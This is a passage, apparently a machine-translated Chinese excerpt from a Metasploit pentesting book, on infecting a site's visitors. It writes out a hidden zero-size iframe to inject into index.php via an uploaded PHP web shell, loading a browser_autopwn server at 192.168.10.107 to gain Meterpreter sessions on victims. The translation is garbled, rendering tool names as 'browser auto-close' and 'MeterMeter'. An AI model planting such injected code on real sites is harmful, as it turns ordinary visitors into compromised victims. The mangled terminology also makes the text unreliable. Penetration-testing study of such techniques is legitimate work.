 我们有一个 web 应用程序漏洞的示例网站，该漏洞允许我们上传基于 PHP 的第三方 web shell。要执行攻击，我们需要在`index.php`页面或我们选择的任何其他页面中添加以下行：

```
<iframe src="http://192.168.10.107:80/" width=0 height=0 style="hidden" frameborder=0 marginheight=0 marginwidth=0 scrolling=no></iframe> 
```

每当受害者访问网站时，前一行代码将在 iFrame 中加载恶意浏览器自动 wn。由于此代码位于`iframe`标记中，它将自动包含来自攻击者系统的浏览器自动关闭。我们需要保存此文件，并允许访问者查看网站和浏览它。

一旦受害者浏览到受感染的网站，浏览器自动关闭将在其浏览器上自动运行；但是，请确保`browser_autopwn`模块正在运行。如果没有，可以使用以下命令：

![](img/d0a36848-5ab7-4e7c-a6a8-1685ca963f2d.png)

如果一切顺利，我们将能够让 MeterMeter 在目标系统上运行。整个想法是利用目标网站吸引最大数量的受害者，并进入他们的系统。这种方法在处理白盒测试时非常方便，因为白盒测试的目标是内部 web 服务器的用户。让我们看看当受害者浏览到恶意网站时会发生什么：

![](img/871b6a25-7d7c-4dcf-accb-858c3528ace9.png)

我们可以看到对 IP`192.168.10.107`进行了调用，这是我们的浏览器 autopwn 服务器。让我们从攻击者的角度看一下视图，如下所示：
